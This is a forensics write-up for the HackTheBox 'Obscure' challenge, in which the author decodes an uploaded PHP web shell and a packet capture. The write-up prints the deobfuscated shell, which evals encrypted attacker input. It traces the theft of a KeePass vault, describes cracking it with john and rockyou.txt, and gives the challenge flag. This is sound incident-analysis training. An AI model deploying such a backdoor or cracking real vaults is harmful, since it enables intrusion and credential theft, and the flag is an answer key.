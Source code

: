 # [HackTheBox - Obscure](https://app.hackthebox.com/challenges/Obscure)
Created: 21/07/2024 12:28
Last Updated: 21/07/2024 15:11
***
**DIFFICULTY**: Easy
**CATEGORY**: Forensics
**CHALLENGE DESCRIPTION** 
An attacker has found a vulnerability in our web server that allows arbitrary PHP file upload in our Apache server. Suchlike, the hacker has uploaded a what seems to be like an obfuscated shell (support.php). We monitor our network 24/7 and generate logs from tcpdump (we provided the log file for the period of two minutes before we terminated the HTTP service for investigation), however, we need your help in analyzing and identifying commands the attacker wrote to understand what was compromised.
***
## Where should we start?
![38f9637ba2f5cb373000a1d33897a254.png](../../../_resources/38f9637ba2f5cb373000a1d33897a254.png)

Lets take a look of what we have right now, we have 3 files which are
- `19-05-21_22532255.pcap`, this should be the main file that we are going to investigate
- `support.php` contains obfuscated php script 
![5fce14aa0ef54e9969fb16973dd2ebd1.png](../../../_resources/5fce14aa0ef54e9969fb16973dd2ebd1.png)
- `to-do.txt` contains text which is the same as challenge description so we can skip this one

## Unravel obfuscated php script
![4f74c320982c49db68ecab9dbb5c4525.png](../../../_resources/4f74c320982c49db68ecab9dbb5c4525.png)

Paste obfuscated php code to https://www.unphp.net/ then we will have some variables and functions restored

![3bdd6be2c643d6b80764cd5b1b4e8b0f.png](../../../_resources/3bdd6be2c643d6b80764cd5b1b4e8b0f.png)

Next, we can use CyberChef "Generic Code Beautiy" recipe to beautify it and now we can carefully review what this script does

Here a script with comments explaining every steps by ChatGPT
```
// Key and marker definitions
$k = "80e32263";            // XOR encryption key
$kh = "6f8af44abea0";        // Start marker for the encrypted payload in the input
$kf = "351039f4a7b5";        // End marker for the encrypted payload in the input
$p = "0UlYyJHG87EJqEz6";     // Prefix used in the response

// Function for XOR encryption/decryption
function x($t, $k) {
    $c = strlen($k);         // Length of the key
    $l = strlen($t);         // Length of the text to be encrypted/decrypted
    $o = "";                 // Output string

    // Loop through each character of the text
    for($i = 0; $i < $l; ) {
        // Loop through each character of the key
        for($j = 0; ($j < $c && $i < $l); $j++, $i++) {
            // XOR each character of the text with the key
            $o .= $t[$i] ^ $k[$j];
        }
    }

    return $o;               // Return the result
}

// Check if the input contains the markers and extract the payload
if (@preg_match("/$kh(.+)$kf/", @file_get_contents("php://input"), $m) == 1)  {
    @ob_start();             // Start output buffering

    // Decode, decrypt, and decompress the payload, then execute it
    eval(@gzuncompress(@x(base64_decode($m[1]), $k)));

    $o = @ob_get_contents(); // Get the output of the executed payload
    @ob_end_clean();         // End output buffering and clean it

    // Compress, encrypt, and encode the output
    $r = @base64_encode(@x(@gzcompress($o), $k));

    // Print the result with the markers
    print("$p$kh$r$kf");
}
```

So we need to making some sense of request that an attacker sent to a server and response of a server to that request so I told ChatGPT make me a script to decrypt them here
```
import base64
import re
import zlib

def xor_decrypt(data, key):
    """
    Decrypts the given data using the XOR cipher with the provided key.
    """
    key_len = len(key)
    data_len = len(data)
    decrypted = bytearray(data_len)
    
    for i in range(data_len):
        decrypted[i] = data[i] ^ key[i % key_len]
    
    return bytes(decrypted)

def decrypt_input(encrypted_data, key, kh, kf):
    """
    Decrypts the input data following the pattern defined by the markers kh and kf.
    """
    # Extract the base64 encoded and encrypted payload using regex
    match = re.search(f"{kh}(.+){kf}", encrypted_data)
    if match:
        b64_encrypted_payload = match.group(1)
    else:
        print("No valid data found")
        return None
    
    # Add padding to the base64 string if necessary
    missing_padding = len(b64_encrypted_payload) % 4
    if missing_padding:
        b64_encrypted_payload += '=' * (4 - missing_padding)
    
    # Base64 decode the encrypted payload
    try:
        encrypted_payload = base64.b64decode(b64_encrypted_payload)
    except Exception as e:
        print(f"Base64 decoding error: {e}")
        return None

    # XOR decrypt the payload
    decrypted_payload = xor_decrypt(encrypted_payload, key.encode())

    # Decompress the payload
    try:
        decompressed_payload = zlib.decompress(decrypted_payload)
        return decompressed_payload.decode()
    except zlib.error as e:
        print(f"Decompression error: {e}")
        return decrypted_payload.decode()

def main():
    # Define the markers and key
    kh = "6f8af44abea0"
    kf = "351039f4a7b5"
    key = "80e32263"
    
    while True:
        encrypted_data = input("Enter the encrypted data: ").strip()
        if not encrypted_data:
            break
        
        decrypted_data = decrypt_input(encrypted_data, key, kh, kf)
        if not decrypted_data:
            print("Failed to decrypt data.")
        else:
            print("Decrypted data:", decrypted_data)
        
        # Ask the user if they want to decrypt more data
        choice = input("Do you want to decrypt more data? (yes/no): ").strip().lower()
        if choice == 'no':
            break

if __name__ == "__main__":
    main()
```

## Following the PCAP
Now its time to dig into a pcap file and see what happened during that time

![f0080dda4bfde86221b468531b6bb3f2.png](../../../_resources/f0080dda4bfde86221b468531b6bb3f2.png)

We can see that at the start of this pcap, an attacker used `/upload.php` to upload malicious php script to server

![223c87f7b223bb1ffa70ee49dc2c33f0.png](../../../_resources/223c87f7b223bb1ffa70ee49dc2c33f0.png)

By using `http contains "support.php"`, we will have only 4 HTTP streams to investigate which are
- HTTP stream of packet number 20
![84e66a2d4ace7ea24e74129db21a27df.png](../../../_resources/84e66a2d4ace7ea24e74129db21a27df.png)
Threat Actor changing directory to `/var/www/html/uploads` then use `id` to display current user information which responded back with `www-data`
- HTTP stream of packet number 426
![3996e36925417994480253f175be59fe.png](../../../_resources/3996e36925417994480253f175be59fe.png)
Threat Actor changing directory to `/var/www/html/uploads` then uses `ls -lah /home/* 2>&1` to list all files and subdirectories in `/home/` directory which we can see that there is a password vault for KeePass in `/home/developer`
- HTTP stream of packet number 442
![231924849eda16dc02177a0719b1fca6.png](../../../_resources/231924849eda16dc02177a0719b1fca6.png)
Threat Actor changing directory to `/home/developer` and confirms that he got the right directory 
- HTTP stream of packet number 462
![3c0e602c3c9c3c4bf7bf39fd914ac9b7.png](../../../_resources/3c0e602c3c9c3c4bf7bf39fd914ac9b7.png)
Then threat actor finally exfiltrated KeePass password vault file in base64 format

![fc963a035e83cfc04d3dbe9ad4d18d60.png](../../../_resources/fc963a035e83cfc04d3dbe9ad4d18d60.png)
So we know whats going on now, we just have to restore KeePass password vault file and Im doing this with CyberChef

![e960dc05f2e6ff6b1383eccdb604e95b.png](../../../_resources/e960dc05f2e6ff6b1383eccdb604e95b.png)
But we could not open this file without master password or key file so we have to figure it out how to obtain either one of them first

## Breaking the vault
![ba221efc39721e2d46f2d912349194b6.png](../../../_resources/ba221efc39721e2d46f2d912349194b6.png)

Luckily for us we can use `keepass2john` and `john` to bruteforcing possible password from `rockyou.txt` wordlist which we can see that we found master password to unlock password vault

![56d4598ba843a564593b54307f16c11c.png](../../../_resources/56d4598ba843a564593b54307f16c11c.png)

Now we can open password vault and obtain a flag which is the password of this user 

## Submit a flag
```
HTB{pr0tect_y0_shellZ}
```

![92a912ee61c7cb1b30bd51487bacb61f.png](../../../_resources/92a912ee61c7cb1b30bd51487bacb61f.png)
***